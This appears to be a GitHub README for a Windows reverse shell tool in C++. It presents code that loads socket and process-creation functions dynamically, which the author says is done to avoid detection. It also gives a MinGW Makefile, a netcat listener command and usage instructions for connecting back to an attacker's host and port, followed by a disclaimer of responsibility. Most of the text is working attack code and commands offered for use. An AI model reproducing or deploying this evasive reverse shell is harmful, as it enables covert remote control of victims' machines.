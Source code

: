 # Windows Reverse Shell
![detection](https://github.com/user-attachments/assets/157c1291-4489-4cce-914a-4829ac631f45)

## Avoiding  Detection
For avoiding detection I defined manually the "sketchy" functions so they can be loaded dynamically by kernel32.dll,and ws2_32.dll
```cpp
...
typedef SOCKET(WINAPI *pWSASocketA)(int, int, int, LPWSAPROTOCOL_INFOA, GROUP, DWORD);
typedef int(WINAPI *pconnect)(SOCKET, const sockaddr *, int);
typedef BOOL(WINAPI *pCreateProcessA)(LPCSTR, LPSTR, LPSECURITY_ATTRIBUTES, LPSECURITY_ATTRIBUTES, BOOL, DWORD, LPVOID, LPCSTR, LPSTARTUPINFOA, LPPROCESS_INFORMATION);

int main(int argc, char const *argv[])

{
    if (argc == 3)
    {
        HMODULE hWS2_32 = GetModuleHandleW(L"ws2_32.dll");
        HMODULE hKernel32 = GetModuleHandleW(L"kernel32.dll");
        pWSASocketA fWSASocketA = (pWSASocketA)GetProcAddress(hWS2_32, "WSASocketA");
        pconnect fconnect = (pconnect)GetProcAddress(hWS2_32, "connect");
        pCreateProcessA fCreateProcessA = (pCreateProcessA)GetProcAddress(hKernel32, "CreateProcessA");
...
```
## Compile
Remember to set the proper compiler in the `Makefile`
### Example
```Makefile
CC= x86_64-w64-mingw32-g++
CFLAGS= -O2 -Wall -fstack-protector-all -fcf-protection=full
LDLIBS= -lws2_32
program: main.cpp
	${CC} ${CFLAGS} -o program main.cpp ${LDLIBS}
```
To compile just enter
```
make
```
## Running the reverse hell
Remember to have your listener ready
```
sudo nc -lvnp 443
```
## Usage
```
./program.exe HOST PORT
```
### Example
```
./program.exe 127.0.0.1 443
```
If it connects it should output
```
[+] Connected
```
If not, it will keep waiting for a connection
```
[!] Couldn't connect, retrying...
[!] Couldn't connect, retrying...
[!] Couldn't connect, retrying...
```
## Warning
I'm not responsible for what you do with this program
